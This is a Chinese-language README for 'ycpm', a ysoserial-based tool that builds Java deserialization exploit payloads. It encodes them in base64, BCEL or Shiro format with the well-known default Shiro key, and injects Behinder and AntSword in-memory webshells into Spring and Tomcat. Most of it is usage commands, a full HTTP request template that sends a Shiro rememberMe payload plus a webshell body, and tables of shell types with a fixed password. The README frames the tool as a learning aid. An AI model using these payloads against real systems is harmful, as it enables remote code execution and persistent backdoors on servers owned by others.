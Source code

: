 # 🌐 ycpm - Ysoserial Chain Process Model

**ycpm** 是一个用于构建和处理 Java 反序列化利用链的工具，支持动态编码、多级编排、反序列化内存马注入。  

该项目基于 [ysoserial](https://github.com/frohoff/ysoserial) 构建，它的主要功能是生成反序列化payload而不是直接攻击目标，所以并不适合红队人员或渗透测试人员。 它更适合在学习Java安全过程中快速生成你想要的反序列化payload。

有了编码器的加持，能够在不借助其他工具的情况下快速完成payload生成。

---

## ✨ 功能特性

- ✅ ysoserial payload
- ✅ encoder：base64、bcel、shiro
- ✅ 内存马loader：spring、tomcat
- ✅ 内存马shellcode：冰蝎[filter、servlet]、蚁剑[filter、servlet]

---

## 🚀 使用示例

### 1️⃣ 使用编码器

在ysoserial的基础上使用base64编码器

```bash
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "base64->print"
```

生成攻击shiro的payload（在反序列化链的基础上使用shiro格式编码器并指定密钥）

```bash
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "shiro:kPH+bIxk5D2deZiIxcaaaA==->print"
```


### 2️⃣ 生成Loader类型的内存马（shiro）

生成攻击shiro类型的loader

```bash
java -jar ycpm.jar "CommonsBeanutils1" "spring-loader:classdata" "shiro->print"
```

生成冰蝎类型内存马

```bash
java -jar ycpm.jar "MemShell" "bx-filter:Hello:/*:passwd" "base64->url->print"
```

构造HTTP包发送payload

```http request
POST /doLogin HTTP/1.1
Host: 192.168.137.132:8080
Cache-Control: max-age=0
Origin: your-ip:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.137.132:8080/login;jsessionid=3F5E92A171B707DD38283016EEFF5CB1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: rememberMe=[反序列化 shiro loader]
Connection: keep-alive

classdata=[反序列化 base64->url 内存马]
```

## 🧩 Encoder 编码器

一个支持链式指定调用的编码器。

如果链条的末尾未使用`file`、`print`的话，则会默认在链条的结尾调用`print`

### 当前支持的编码器列表

| 编码器名称 | 描述             | 示例                                       |
|------------|----------------|------------------------------------------|
| `base64`   | `Base64`格式转换   | `base64`                                 
| `shiro`    | `AES`+`Base64`格式转换 | `shiro`、`shiro:kPH+bIxk5D2deZiIxcaaaA==` |
| `BCEL`     | `$$BCEL$$`格式转换 | `bcel`                                   |
| `URL`      | `URL`          | `url`                                    |
| `File`     | 结果输出到文件        | `file`、`file:exploit.ser`                |
| `Print`    | 结果输出到终端        | `print`                                  |

## 🧩 内存马加载器(Loader)

| 内存马加载器          | 描述                                                | 示例                        |
|-----------------|---------------------------------------------------|---------------------------|
| `spring-loader` | Spring环境下从HTTP body中加载一个classdata参数作为内存马shellcode | `spring-loader:classdata` 
| `tomcat-loader` | Tomcat环境下从HTTP body中加载一个classdata参数作为内存马shellcode | `tomcat-loader:classdata` |

## 🧩 内存马(shellcode)

| 内存马类型                            | 描述                                   | 示例                        |
|----------------------------------|--------------------------------------|---------------------------|
| `bx-filter`                      | 冰蝎Filter内存马：拦截路径为/*、密码为`passwd`      | `bx-filter:Hello:/*:passwd` 
| `bx-servlet`                     | 冰蝎Servlet内存马：拦截路径为/shell、密码为`passwd` | `bx-servlet:Hello:/shell:passwd` |
| `yj-filter`                      | 蚁剑Filter内存马：拦截路径为/*、密码为`passwd`      | `yj-filter:Hello:/*:passwd` |
| `yj-servlet`                     | 蚁剑Servlet内存马：拦截路径为/shell、密码为`passwd` | `yj-servlet:Hello:/shell:passwd` |

## 🙏 致谢

该项目参考了以下相关内容，在此表示感谢！

- [frohoff/ysoserial](https://github.com/frohoff/ysoserial)
- [AntSwordProject/AwesomeScript](https://github.com/AntSwordProject/AwesomeScript)
- [rebeyond/Behinder](https://github.com/rebeyond/Behinder)